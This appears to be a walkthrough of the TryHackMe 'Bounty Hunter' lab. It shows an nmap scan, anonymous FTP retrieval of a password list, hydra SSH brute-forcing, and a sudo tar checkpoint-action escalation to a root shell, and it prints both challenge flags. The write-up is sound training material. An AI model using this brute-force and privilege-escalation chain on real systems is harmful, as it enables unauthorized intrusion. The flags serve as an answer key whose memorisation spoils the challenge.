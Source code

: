 # TryHackMe: Bounty Hunter

## Task 1

### 1. Deploy

If you need help with this, goto the support section.

### 2. Find all open ports on machine

`nmap -A -p- target.thm -v`

```shell-session
Scanning target.thm (10.10.237.73) [65535 ports]
    Discovered open port 22/tcp on 10.10.237.73
    Discovered open port 21/tcp on 10.10.237.73
    Discovered open port 80/tcp on 10.10.237.73
```

Ports are:

- `22, SSH`
- `21, FTP`
- `80, HTTP`

### 3. Who wrote the task list

Navigate to host `10.10.237.73`. There's some blurb there giving a light backstory/context to the engagement.

#### Test FTP for anon access

`ftp 10.10.237.73`, use username `Anonymous`, with a blank password.

##### Login works

```shell-session
kali@kali:~/Desktop/TryHackMe/cowboyhacker$ ftp 10.10.237.73
Connected to 10.10.237.73.
220 (vsFTPd 3.0.3)
Name (10.10.237.73:kali): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

##### Check files in dir, and download them

```shell-session
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.06 secs (6.6875 kB/s)
ftp> get task.txt 
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.06 secs (1.1806 kB/s)

```

##### Read stolen files

`locks.txt` (seems like a list of passwords...)

```shell-session
kali@kali:~/Desktop/TryHackMe/cowboyhacker$ cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

`cat task.txt` (the task list for the _flag_)

```shell-session
kali@kali:~/Desktop/TryHackMe/cowboyhacker$ cat task.txt  
1.) Protect Vicious.  
2.) Plan for Red Eye pickup on the moon.
-lin
```

### 4. What service can you bruteforce with the text file found

There were only 3 ports open on the scan, of which they're used for the either FTP, SSH, HTTP. We could brute FTP, but we'd have less capability; HTTP, not really brutable with what we've uncovered so far; so SSH, seems like the best option.

### 5. What is the users password

Lets assume the following:
    Username: `lin`
    Password file: `locks.txt`

And bruteforce with:
    `hydra -l lin -P ~/Desktop/TryHackMe/cowboyhacker/locks.txt ssh://target.thm`

```shell-session
kali@kali:~/Desktop/TryHackMe/cowboyhacker$ hydra -l lin -P ~/Desktop/TryHackMe/cowboyhacker/locks.txt ssh://target.thm
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-09 17:51:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://target.thm:22/
[22][ssh] host: target.thm   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-09 17:51:35

```

Revealing the password is `RedDr4gonSynd1cat3`.

### 6. user.txt

Lets `ssh` into the box with our cracked credentials `lin:RedDr4gonSynd1cat3`.

`ssh lin@target.thm`

```shell-session
kali@kali:~/Desktop/TryHackMe/cowboyhacker$ ssh lin@10.10.237.73
The authenticity of host '10.10.237.73 (10.10.237.73)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.237.73' (ECDSA) to the list of known hosts.
lin@10.10.237.73's password: 
Permission denied, please try again.
lin@10.10.237.73's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ 

```

Then we need to find and return `user.txt`.

```shell-session
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}
```

### 7. root.txt

Lets assume the `root.txt` is in the `/root` directory and `ls` it to see if we can see anything there.

```shell-session
lin@bountyhacker:~/Desktop$ ls /root
ls: cannot open directory '/root': Permission denied
```

We don't have permission, so need to find a privesc. Lets start with using `sudo -l` to identify any root priviledged binaries we may have assigned.

```shell-session
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Output shows that we can exploit `/bin/tar` as `root`. On reading the `/bin/tar` manual with `/bin/tar --help`. We can see that we can exploit `--checkpoint[=NUMBER]` and `--checkpoint-action=[ACTION]`. Causing `tar` to fire an action on every checkpoint.

Lets 'create' a tar compressed archive. We'll use `/dev/null` for input and output incase of lacking permissions..

`sudo tar -c /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

```shell-session
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root

```

Successfully achieved a root shell. Lets try find that last flag.

``` bash
# ls /root
root.txt
# cat /root/root.txt
THM{80UN7Y_h4cK3r}
```
